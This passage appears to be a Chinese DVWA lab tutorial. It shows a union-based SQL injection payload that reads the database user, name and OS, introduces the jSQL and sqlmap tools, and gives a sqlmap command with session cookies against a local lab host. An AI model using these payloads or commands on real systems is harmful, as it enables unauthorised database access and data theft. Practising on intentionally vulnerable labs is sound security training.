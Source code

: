 ### Insecure CAPTCHA （不安全的验证码）
#### Low
#### Medium
#### Hign
#### impossible
### SQL Injection（SQL注入）
SQL Injection（SQL注入）,是指攻击者通过注入恶意的SQL命令,破坏SQL查询语句的结构,从而达到执行恶意SQL语句的目的。

#### Low
查看代码，直接拼接sql
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/bb81c0cd19375cbca5b2707958426478.png)
id中填入：-1' union select user(),database() '
比如查看操作系统版本数据目录：-1' union select @@version_compile_os,database() '
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/005fd0ccccb4ffae18c2a298dbd2e281.png)
##### jsql injection
jSQL Injection是一个轻量级的应用程序，用于从远程服务器查找数据库信息。jSQL是免费的，开源的和可多平台使用的（Windows，Linux，Mac OS X，Solaris）。

jSQL injection是一款由JAVA开法的SQL自动化注入工具，它提供了数据库查询、后台爆破、文件读取、Web shell、SQL Shell、文件上传、暴力枚举、编码、批量注入测试等强大的功能，是一款非常不错的工具，也是渗透测试人员的强大助手。它支持GET\POST注入，同时也可以进行HTTP头注入（这个需要用户自动构建）。与sqlmap相比，其拥有图形化的界面和完整的中文支持。
安装包：https://github.com/ron190/jsql-injection/releases/
最新版本要jdk17才能运行。

访问DVWA，通过f12获取到接口的访问路径
http://192.168.20.48/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit
注意他的cookie，在其他地方访问要带上cookie
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/377326159a5ad470cf3965dd1d06b334.png)

>注意把id参数放后面，如果放前面发现会失败。

##### sqlmap
SQLMap是一款开源渗透测试工具，可用于自动检测和利用SQL注入漏洞，并接管数据库服务器。Sqlmap 是一个基于命令行的半自动化SQL注入攻击工具。在我们使用扫描器或者是手工发现了一个SQL注入点后，通常需要验证注入点是否是一个可以利用的点，这个时候就可以利用sqlmap来完成。
SQLMap官网下载：http://sqlmap.org/#download
github源码下载：https://github.com/sqlmapproject/sqlmap
注意sqlmap注意代码需要python3.8以上版本，使用Anaconda Navigator创建一个3.8.0环境激活

```
D:\green\sql\sqlmapproject-sqlmap-33a6547>conda env list
# conda environments:
#
base                  *  C:\Users\liaomin\anaconda3
env380                   C:\Users\liaomin\anaconda3\envs\env380
gpm                      C:\Users\liaomin\anaconda3\envs\gpm
mathlearn                C:\Users\liaomin\anaconda3\envs\mathlearn
papi-generator-server     C:\Users\liaomin\anaconda3\envs\papi-generator-server
py27                     C:\Users\liaomin\anaconda3\envs\py27
superset                 C:\Users\liaomin\anaconda3\envs\superset
superset1                C:\Users\liaomin\anaconda3\envs\superset1
superset2                C:\Users\liaomin\anaconda3\envs\superset2

D:\green\sql\sqlmapproject-sqlmap-33a6547>activate env380
D:\green\sql\sqlmapproject-sqlmap-33a6547>conda.bat activate env380
(env380) D:\green\sql\sqlmapproject-sqlmap-33a6547>
```
在env380执行sqlmap扫描（注意添加cookie头，f12去浏览器拿最新的）
**检查注入点：**
```
python sqlmap.py -u "http://192.168.20.48/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --headers="Cookie: PHPSESSID=k3e212a0a0p2mj5kut2gmjdfo2; XDEBUG_SESSION=15794; ts_uid=8970165994; ad_play_index=25; security=low"
```